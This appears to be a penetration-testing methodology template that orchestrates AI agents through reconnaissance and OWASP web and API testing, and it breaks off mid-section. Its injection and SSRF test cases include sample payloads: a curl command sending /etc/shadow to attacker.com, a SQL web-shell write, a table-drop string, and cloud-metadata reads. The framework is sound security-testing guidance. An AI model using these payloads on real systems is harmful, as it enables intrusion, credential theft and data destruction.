







# Dynamic Penetration Testing Framework (DPTF)
## Universal Security Assessment Protocol for Any Software/Hardware System
### *Adaptive, Comprehensive, Threat-Informed Security Testing*

---

## FRAMEWORK OVERVIEW

This framework provides a systematic, repeatable approach to conduct comprehensive penetration testing on **any software or hardware system** - from web applications to cloud infrastructure, from IoT devices to enterprise networks, from mobile apps to industrial control systems. The methodology adapts to your target while maintaining rigorous security analysis standards.

### Target System Configuration

**System Under Test**: {TARGET_SYSTEM_NAME}

**System Classification**: {SYSTEM_TYPE}
Examples: "Web Application", "Mobile App", "Cloud Infrastructure", "Network Infrastructure", "IoT Device", "API Service", "Desktop Application", "Hardware Device", "Industrial Control System", "Blockchain Platform", "Containerized Microservices"

**Technology Stack**: {TECH_STACK_DESCRIPTION}
- Primary Language(s): {LANGUAGES}
- Framework(s): {FRAMEWORKS}
- Database(s): {DATABASES}
- Infrastructure: {CLOUD/ON-PREM/HYBRID}
- Operating System(s): {OS_DETAILS}

**Deployment Architecture**: {ARCHITECTURE_DESCRIPTION}
Example: "Multi-tier cloud-native architecture with containerized microservices, managed Kubernetes, RDS database, CDN, and API gateway"

**Attack Surface Overview**:
{INITIAL_ATTACK_SURFACE_ASSESSMENT}
- External-facing components
- Internal systems and networks
- User access points
- API endpoints
- Data storage locations
- Third-party integrations

**Business Context**: {BUSINESS_CRITICALITY}
- Business impact of compromise
- Regulatory requirements (PCI-DSS, HIPAA, SOC2, GDPR, etc.)
- User base and data sensitivity
- Recovery time objectives (RTO)
- Recovery point objectives (RPO)

**Testing Constraints**:
- Authorized scope boundaries
- Time windows for testing
- Rate limiting considerations
- Production vs. testing environment
- Forbidden actions/targets
- Notification requirements

---

## PENETRATION TESTING MISSION

Your mission is to conduct **exhaustive, multi-vector security analysis** to:

1. **Reconnaissance Phase**: Map the complete attack surface and gather intelligence
2. **Vulnerability Discovery Phase**: Identify all security weaknesses across all attack vectors
3. **Exploitation Phase**: Validate vulnerabilities and assess real-world impact
4. **Post-Exploitation Phase**: Determine depth of compromise and lateral movement potential
5. **Risk Assessment Phase**: Score vulnerabilities and prioritize remediation
6. **Reporting Phase**: Document findings with evidence and actionable remediation guidance

**Testing Approach**: Threat-informed, risk-based, comprehensive
**Methodology Standards**: PTES, OWASP, NIST SP 800-115, MITRE ATT&CK
**Mindset**: Think like an advanced persistent threat (APT) actor

---

## SPECIALIZED AGENT DEPLOYMENT

This framework is executed through **21 specialized AI worker agents**, each designed for a specific phase of penetration testing. These agents work in coordinated waves using Claude Flow for memory sharing and dependency management.

### Agent Inventory & Deployment Model

**PHASE 0 AGENTS** - Reconnaissance (3 agents, sequential deployment):
1. **passive-reconnaissance-specialist** → Step 0.1 → `00_reconnaissance/01_passive_intelligence.md`
2. **active-reconnaissance-specialist** → Step 0.2 → `00_reconnaissance/02_active_enumeration.md`
3. **vulnerability-landscape-mapper** → Step 0.3 → `00_reconnaissance/03_vulnerability_landscape.md`

**PHASE 1 AGENTS** - Vulnerability Analysis (5 agents, parallel deployment):
4. **web-application-security-tester** → Vector 1.1 → `01_vulnerability_analysis/01_web_application_testing.md`
5. **api-security-tester** → Vector 1.2 → `01_vulnerability_analysis/02_api_security_testing.md`
6. **network-security-tester** → Vector 1.3 → `01_vulnerability_analysis/03_network_security_testing.md`
7. **cloud-infrastructure-security-tester** → Vector 1.4 → `01_vulnerability_analysis/04_cloud_security_testing.md`
8. **container-orchestration-security-tester** → Vector 1.5 → `01_vulnerability_analysis/05_container_security_testing.md`

**PHASE 2 AGENTS** - Exploitation (4 agents, sequential deployment):
9. **exploitation-strategy-planner** → Step 2.1 → `02_exploitation/01_exploitation_strategy.md`
10. **active-exploitation-specialist** → Step 2.2 → `02_exploitation/02_exploitation_execution.md`
11. **post-exploitation-specialist** → Step 2.3 → `02_exploitation/03_post_exploitation.md`
12. **attack-chain-mapper** → Step 2.4 → `02_exploitation/04_attack_chains.md`

**PHASE 3 AGENTS** - Risk Assessment (3 agents, parallel deployment):
13. **comprehensive-risk-scorer** → Step 3.1 → `03_risk_assessment/01_comprehensive_scoring.md`
14. **remediation-prioritizer** → Step 3.2 → `03_risk_assessment/02_remediation_priorities.md`
15. **compensating-controls-analyst** → Step 3.3 → `03_risk_assessment/03_compensating_controls.md`

**PHASE 4 AGENTS** - Reporting (3 agents, parallel deployment):
16. **executive-report-writer** → Step 4.1 → `04_reporting/01_executive_summary.md`
17. **technical-report-writer** → Step 4.2 → `04_reporting/02_technical_report.md`
18. **remediation-tracking-coordinator** → Step 4.3 → `04_reporting/03_remediation_tracking.md`

**PHASE 5 AGENTS** - Verification (3 agents, mixed deployment):
19. **retest-verification-specialist** → Step 5.1 → `05_verification/01_retest_results.md`
20. **continuous-testing-strategist** → Step 5.2 → `05_verification/02_continuous_testing_program.md`
21. **security-metrics-analyst** → Step 5.3 → `05_verification/03_security_metrics.md`

### Agent Orchestration Strategy

**DEPENDENCY-AWARE PARALLEL DEPLOYMENT**

**Wave 1 - Reconnaissance (Sequential: 6-8 hours)**
```bash
# Agents must run in order (each depends on previous findings)
Task("Passive Recon", "Phase 0.1 OSINT", "passive-reconnaissance-specialist")
→ Wait for completion
Task("Active Recon", "Phase 0.2 enumeration", "active-reconnaissance-specialist")
→ Wait for completion
Task("Vuln Mapping", "Phase 0.3 scanning", "vulnerability-landscape-mapper")
```

**Wave 2 - Vulnerability Analysis (Parallel: 12-16 hours)**
```bash
# All 5 agents can run simultaneously (independent attack vectors)
[Single Message - Parallel Deployment]:
Task("Web App Tester", "OWASP Top 10 2021", "web-application-security-tester")
Task("API Tester", "OWASP API Top 10", "api-security-tester")
Task("Network Tester", "Network infrastructure", "network-security-tester")
Task("Cloud Tester", "AWS/Azure/GCP", "cloud-infrastructure-security-tester")
Task("Container Tester", "Docker/K8s", "container-orchestration-security-tester")
```

**Wave 3 - Exploitation (Sequential: 8-12 hours)**
```bash
# Agents run in order (exploitation depends on strategy, post-exploit depends on access)
Task("Strategy Planner", "Phase 2.1 planning", "exploitation-strategy-planner")
→ Wait for completion
Task("Active Exploit", "Phase 2.2 execution", "active-exploitation-specialist")
→ Wait for completion
Task("Post-Exploit", "Phase 2.3 lateral movement", "post-exploitation-specialist")
→ Wait for completion
Task("Attack Chain Mapper", "Phase 2.4 MITRE mapping", "attack-chain-mapper")
```

**Wave 4 - Risk Assessment (Parallel: 4-6 hours)**
```bash
# All 3 agents can run simultaneously (all analyze same findings)
[Single Message - Parallel Deployment]:
Task("Risk Scorer", "CVSS v3.1 scoring", "comprehensive-risk-scorer")
Task("Remediation Prioritizer", "P0-P3 priorities", "remediation-prioritizer")
Task("Controls Analyst", "Compensating controls", "compensating-controls-analyst")
```

**Wave 5 - Reporting (Parallel: 6-8 hours)**
```bash
# All 3 agents can run simultaneously (different audience reports)
[Single Message - Parallel Deployment]:
Task("Executive Report", "C-suite summary", "executive-report-writer")
Task("Technical Report", "50-200 page technical", "technical-report-writer")
Task("Remediation Tracker", "Tracking matrix", "remediation-tracking-coordinator")
```

**Wave 6 - Verification (Mixed: 4-8 hours)**
```bash
# Retest first, then other two in parallel
Task("Retest Specialist", "Remediation validation", "retest-verification-specialist")
→ Wait for completion
[Single Message - Parallel Deployment]:
Task("Continuous Testing", "Program design", "continuous-testing-strategist")
Task("Metrics Analyst", "KPI tracking", "security-metrics-analyst")
```

### Performance Metrics

- **Sequential Execution**: 140-180 hours (run all 21 agents one after another)
- **Optimized Parallel Execution**: 40-58 hours (dependency-aware waves)
- **Speedup Factor**: 3.5x faster with parallel deployment

### Agent Coordination

All agents use **Claude Flow hooks** for coordination:
- **Pre-task hooks**: Retrieve findings from previous agents via memory
- **Post-task hooks**: Store findings for subsequent agents
- **Memory namespaces**: `pentest/{target}/{phase}/{agent}`

**Example Agent Communication**:
```bash
# Agent 4 (web-application-security-tester) stores findings
npx claude-flow@alpha memory store \
  --namespace "pentest/target/findings/web" \
  --key "owasp-top-10" \
  --value '{"A01": "Broken Access Control found..."}'

# Agent 13 (comprehensive-risk-scorer) retrieves findings
npx claude-flow@alpha memory retrieve \
  --namespace "pentest/target/findings/web" \
  --key "owasp-top-10"
```

---

## PHASE 0: RECONNAISSANCE & ATTACK SURFACE MAPPING

### Objective
Gather comprehensive intelligence about the target system without raising alarms. Create a complete map of the attack surface including all entry points, technologies, and potential vectors.

### Step 0.1: Passive Reconnaissance

**🤖 AGENT**: `passive-reconnaissance-specialist`
**OUTPUT**: `00_reconnaissance/01_passive_intelligence.md`
**DEPLOYMENT**: Wave 1 (sequential) - Must complete before Step 0.2

**Analysis Process**:
Gather information without directly interacting with target systems:

**OSINT Collection**:
- Domain and subdomain enumeration (DNS records, certificate transparency logs)
- Email addresses and personnel identification (LinkedIn, social media)
- Technology fingerprinting (Wappalyzer, BuiltWith)
- Code repository analysis (GitHub, GitLab, public repos)
- Historical data mining (Wayback Machine, Google dorking)
- Dark web and breach databases (HaveIBeenPwned, leaked credentials)
- Company structure and organizational intelligence
- Third-party services and vendor relationships
- IP range and ASN identification
- SSL/TLS certificate analysis

**Tools & Techniques**:
- theHarvester, Maltego, Shodan, Censys
- Google Dorks, Wayback Machine
- Certificate transparency logs (crt.sh)
- DNS enumeration (dnsrecon, dnsenum, subfinder)
- Social media intelligence gathering
- Job posting analysis for technology stack hints
- Public documentation and API specifications

**Documentation Requirements**:
Create `00_reconnaissance/01_passive_intelligence.md`:
- Complete domain and subdomain inventory
- Email addresses and personnel list
- Technology stack identification
- Exposed credentials or sensitive data findings
- Network range and infrastructure mapping
- Third-party service dependencies
- Historical vulnerabilities or breach information
- Social engineering vectors identified

**Intelligence Mermaid Diagram**:


### Step 0.2: Active Reconnaissance

**🤖 AGENT**: `active-reconnaissance-specialist`
**OUTPUT**: `00_reconnaissance/02_active_enumeration.md`
**DEPLOYMENT**: Wave 1 (sequential) - Requires Step 0.1 completion, must complete before Step 0.3

**Analysis Process**:
Directly interact with target systems to enumerate services, versions, and configurations:

**Network Enumeration**:
- Port scanning (TCP/UDP) across all target ranges
- Service version detection and fingerprinting
- Operating system identification
- Network topology mapping
- Firewall and filtering rule detection
- Load balancer identification
- WAF/IPS/IDS detection

**Web Application Enumeration**:
- Directory and file brute-forcing
- Virtual host discovery
- HTTP method enumeration
- Parameter discovery and analysis
- Hidden endpoint detection
- API endpoint enumeration
- WebSocket endpoint discovery
- GraphQL schema introspection

**Tools & Techniques**:
- Nmap (comprehensive port scanning with NSE scripts)
- Masscan (high-speed port scanning)
- Nessus/OpenVAS (vulnerability scanning)
- Burp Suite (web application analysis)
- OWASP ZAP (automated scanning)
- Nikto (web server scanning)
- ffuf, dirb, gobuster (directory brute-forcing)
- Amass (attack surface mapping)
- Nuclei (automated vulnerability detection)

**Documentation Requirements**:
Create `00_reconnaissance/02_active_enumeration.md`:
- Complete port scan results with service versions
- Web application structure and endpoints
- Identified technologies and frameworks
- Security controls detected (WAF, IDS, rate limiting)
- SSL/TLS configuration analysis
- HTTP security headers assessment
- API documentation and endpoints
- Administrative interfaces discovered

**Attack Surface Mermaid Diagram**:


### Step 0.3: Vulnerability Landscape Mapping

**🤖 AGENT**: `vulnerability-landscape-mapper`
**OUTPUT**: `00_reconnaissance/03_vulnerability_landscape.md`
**DEPLOYMENT**: Wave 1 (sequential) - Requires Step 0.2 completion

**Analysis Process**:
Create comprehensive vulnerability inventory across all attack vectors:

**Automated Vulnerability Scanning**:
- Network vulnerability assessment
- Web application vulnerability scanning
- Database security assessment
- Cloud configuration review
- Container and Kubernetes scanning
- Dependency and library vulnerability analysis
- SSL/TLS weakness identification
- DNS security assessment

**Manual Verification**:
- False positive elimination
- Logic flaw identification
- Business logic vulnerability assessment
- Access control testing
- Authentication mechanism review
- Session management analysis

**Tools & Techniques**:
- Nessus Professional (comprehensive vulnerability scanning)
- Burp Suite Pro (web application scanning with manual verification)
- OWASP Dependency-Check (third-party library vulnerabilities)
- Trivy (container vulnerability scanning)
- kube-bench (Kubernetes security assessment)
- SSLyze/testssl.sh (SSL/TLS configuration testing)
- Prowler/ScoutSuite (cloud security auditing)
- SQLmap (SQL injection detection)
- nuclei (template-based vulnerability scanning)

**MITRE ATT&CK Mapping**:
Map discovered attack vectors to MITRE ATT&CK framework:
- Initial Access techniques
- Execution vectors
- Persistence mechanisms
- Privilege Escalation paths
- Defense Evasion possibilities
- Credential Access vectors
- Discovery techniques
- Lateral Movement paths
- Collection methods
- Exfiltration channels
- Impact scenarios

**Documentation Requirements**:
Create `00_reconnaissance/03_vulnerability_landscape.md`:
- Categorized vulnerability inventory
- CVSS scores and severity ratings
- Exploitability assessment
- MITRE ATT&CK technique mapping
- Attack vector descriptions
- Potential impact analysis
- Affected components listing
- CVE references where applicable

**Vulnerability Distribution Mermaid Diagram**:


---

## PHASE 1: MULTI-VECTOR VULNERABILITY ANALYSIS

### Objective
Systematically analyze all identified vulnerabilities across every attack vector, following industry-standard frameworks (OWASP Top 10, SANS Top 25, MITRE ATT&CK).

### Attack Vector Categories

For each category below, conduct comprehensive testing following the specified methodology:

### Vector 1.1: Web Application Security (OWASP Top 10 2021)

**🤖 AGENT**: `web-application-security-tester`
**OUTPUT**: `01_vulnerability_analysis/01_web_application_testing.md`
**DEPLOYMENT**: Wave 2 (parallel) - Can run simultaneously with Vectors 1.2-1.5

**Testing Methodology**:

**A01: Broken Access Control**
- Test vertical privilege escalation (user → admin)
- Test horizontal privilege escalation (user → other user)
- Insecure Direct Object References (IDOR) testing
- Path traversal and directory listing
- Force browsing to restricted URLs
- Missing function-level access control
- API access control bypass

**Test Cases**:
```
1. Parameter tampering: Change user_id, account_id, role parameters
2. URL manipulation: Access admin paths as regular user
3. Method manipulation: Try different HTTP methods on endpoints
4. Token manipulation: Modify JWT claims, session tokens
5. Multi-account testing: Access resources across different accounts
6. Workflow bypass: Skip intermediate steps in multi-step processes
```

**A02: Cryptographic Failures**
- Sensitive data transmission (passwords, credit cards, PII)
- Weak encryption algorithms (DES, MD5, SHA1)
- Insecure SSL/TLS configuration
- Hard-coded credentials or keys
- Predictable random number generation
- Weak password hashing (MD5, SHA1 without salt)

**Test Cases**:
```
1. MitM testing: Intercept and analyze encrypted traffic
2. Code review: Search for hard-coded secrets, weak crypto
3. Password storage: Test hash strength, salt usage
4. SSL/TLS: Test protocol versions, cipher suites, certificate validity
5. Randomness: Analyze session tokens, CSRF tokens for predictability
```

**A03: Injection Flaws**
- SQL Injection (in-band, blind, time-based)
- NoSQL Injection (MongoDB, Redis, etc.)
- OS Command Injection
- LDAP Injection
- XPath Injection
- XML External Entity (XXE) Injection
- Server-Side Template Injection (SSTI)
- Expression Language (EL) Injection
- ORM Injection

**Test Cases**:
```
SQL Injection Payloads:
- ' OR '1'='1
- '; DROP TABLE users--
- ' UNION SELECT NULL, NULL, NULL--
- 1' AND SLEEP(5)--
- ' OR 1=1 INTO OUTFILE '/var/www/html/shell.php'--

Command Injection Payloads:
- ; ls -la
- | whoami
- && cat /etc/passwd
- `id`
- $(curl attacker.com/exfil?data=$(cat /etc/shadow))

NoSQL Injection Payloads:
- {"$gt": ""}
- {"$ne": null}
- {"$where": "this.password.match(/.*/)"}
```

**A04: Insecure Design**
- Business logic flaws
- Missing rate limiting
- Insufficient anti-automation
- Race condition vulnerabilities
- Workflow bypass
- Price manipulation
- Quantity manipulation
- Discount code abuse

**Test Cases**:
```
1. Negative pricing: Try negative values in price fields
2. Race conditions: Simultaneous requests for resource-limited operations
3. Time-based logic flaws: Manipulate timestamps, dates
4. Coupon stacking: Apply multiple discounts
5. Referral abuse: Self-referral, circular referrals
6. Password reset: Token reuse, token theft
```

**A05: Security Misconfiguration**
- Default credentials testing
- Unnecessary features enabled
- Directory listing enabled
- Detailed error messages
- Outdated software versions
- Unnecessary HTTP methods enabled
- Security headers missing
- CORS misconfiguration
- Cloud storage misconfiguration (public S3 buckets)

**Test Cases**:
```
1. Default credentials: admin/admin, root/root, test/test
2. HTTP methods: Test PUT, DELETE, TRACE, OPTIONS
3. Error messages: Trigger errors, analyze stack traces
4. Directory listing: Access /backup/, /admin/, /config/
5. Cloud buckets: Check public read/write permissions
6. CORS: Test cross-origin requests from malicious domains
```

**A06: Vulnerable and Outdated Components**
- Identify all third-party libraries and versions
- Cross-reference with CVE databases
- Test known exploits for identified versions
- Check for outdated frameworks
- Analyze JavaScript libraries (client-side)
- Review server-side dependencies

**Tools & Techniques**:
- Retire.js (JavaScript library vulnerabilities)
- OWASP Dependency-Check
- Snyk (open-source vulnerability scanning)
- NPM audit, pip-audit, bundle-audit
- CVE database searches

**A07: Identification and Authentication Failures**
- Weak password policy
- Credential stuffing attacks
- Brute-force attacks
- Session fixation
- Session hijacking
- JWT vulnerabilities
- OAuth/SAML misconfigurations
- Multi-factor authentication bypass
- Password reset flaws

**Test Cases**:
```
1. Weak passwords: Test common passwords, dictionary attacks
2. Brute force: Attempt automated login attempts
3. Session tokens: Test predictability, insufficient randomness
4. JWT attacks: Algorithm confusion (alg=none), key confusion
5. OAuth: Test redirect_uri manipulation, state parameter bypass
6. MFA bypass: Test backup codes, SMS interception, TOTP synchronization
7. Password reset: Test token reuse, predictable tokens, account enumeration
```

**A08: Software and Data Integrity Failures**
- Insecure deserialization
- Unsigned or unverified updates
- CI/CD pipeline vulnerabilities
- Third-party plugin integrity
- CDN compromise possibilities
- Supply chain attack vectors

**Test Cases**:
```
1. Deserialization: Test pickle, YAML, XML deserialization
2. Update mechanism: Test for man-in-the-middle, lack of signature verification
3. Package integrity: Check for dependency confusion attacks
4. CDN security: Test for subdomain takeover, CDN cache poisoning
```

**A09: Security Logging and Monitoring Failures**
- Insufficient logging
- Log injection vulnerabilities
- Sensitive data in logs
- Missing security alerting
- Log tampering possibilities
- Retention policy weaknesses

**Test Cases**:
```
1. Log injection: Inject CRLF, escape sequences into logged data
2. Sensitive data: Check for passwords, tokens in logs
3. Event monitoring: Test if security events trigger alerts
4. Log access: Test unauthorized log access
```

**A10: Server-Side Request Forgery (SSRF)**
- Internal network scanning via SSRF
- Cloud metadata service access (169.254.169.254)
- File system access via SSRF
- Port scanning via SSRF
- Protocol smuggling

**Test Cases**:
```
SSRF Payloads:
- http://localhost/admin
- http://127.0.0.1:8080
- http://169.254.169.254/latest/meta-data/
- file:///etc/passwd
- gopher://internal-server:25/xHELO
- dict://localhost:6379/INFO
```

**Documentation Requirements**:
Create `01_vulnerability_analysis/01_web_application_testing.md`:
- Detailed findings for each OWASP category
- Proof-of-concept demonstrations
- Screenshots and evidence
- Request/response examples
- Exploitation steps
- Risk rating (CVSS scores)
- Affected URLs and parameters
- Remediation recommendations

### Vector 1.2: API Security (OWASP API Security Top 10)

**🤖 AGENT**: `api-security-tester`
**OUTPUT**: `01_vulnerability_analysis/02_api_security_testing.md`
**DEPLOYMENT**: Wave 2 (parallel) - Can run simultaneously with Vectors 1.1, 1.3-1.5

**Testing Methodology**:

**API1: Broken Object Level Authorization**
- Test IDOR in API endpoints
- Resource ID manipulation
- UUID predictability testing
- Cross-account resource access

**API2: Broken Authentication**
- JWT validation bypass
- API key leakage
- OAuth flow manipulation
- Token expiration issues
- Weak token generation

**API3: Broken Object Property Level Authorization**
- Mass assignment vulnerabilities
- Excessive data exposure
- Parameter pollution
- Field-level authorization bypass

**API4: Unrestricted Resource Access**
- Rate limiting bypass
- Pagination manipulation
- Resource exhaustion attacks
- Denial of service vectors

**API5: Broken Function Level Authorization**
- Administrative function access
- Hidden endpoint discovery
- HTTP method tampering
- Function access without proper authorization

**API6: Unrestricted Access to Sensitive Business Flows**
- Purchase flow manipulation
- Account creation abuse
- Referral system exploitation
- Voting/rating manipulation

**API7: Server Side Request Forgery (SSRF)**
- Internal service enumeration
- Cloud metadata access
- Webhook manipulation
- URL parameter injection

**API8: Security Misconfiguration**
- CORS misconfiguration
- HTTP security headers missing
- Verbose error messages
- Default configurations
- TLS misconfiguration

**API9: Improper Inventory Management**
- Shadow API discovery
- Old API versions running
- Undocumented endpoints
- Deprecated but active endpoints

**API10: Unsafe Consumption of APIs**
- Third-party API trust issues
- Input validation on API responses
- API chaining attacks

**Tools & Techniques**:
- Postman (API testing and automation)
- Burp Suite (API interception and manipulation)
- OWASP ZAP (API scanning)
- Arjun (parameter discovery)
- ffuf (API fuzzing)
- GraphQL introspection tools
- API specification analysis (OpenAPI/Swagger)

**Documentation Requirements**:
